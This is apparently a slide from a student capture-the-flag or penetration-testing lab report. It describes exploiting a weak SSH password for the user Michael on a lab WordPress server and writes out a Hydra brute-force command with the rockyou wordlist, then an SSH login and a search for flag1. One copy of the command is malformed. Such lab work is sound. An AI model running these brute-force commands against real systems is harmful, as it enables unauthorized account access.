

# Exploitation: Weak Password & Authentication
Summarize the following:
How did you exploit the vulnerability? E.g., which tool (Nmap, etc.) or technique (XSS, etc.)? Use Hydra –l Michael –P /usr/share/wordlists/rockyou.txt.ssh://192.1.110 –t 4 (this will show the password for Michael) – ssh Michael@192.168.1.110 (using hydra password crack) – search directories until you find service.html – cat service.html – flag1 is there
What did the exploit achieve? E.g., did it grant you a user shell, root access, etc.? The exploit allowed us to ssh into the wordpress server as Michael. Able to search the srver using commands for flag
Include a screenshot or command output illustrating the exploit.
Hydra –l Michael –P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110 –t 4
Ssh Michael@192.168.1.110
8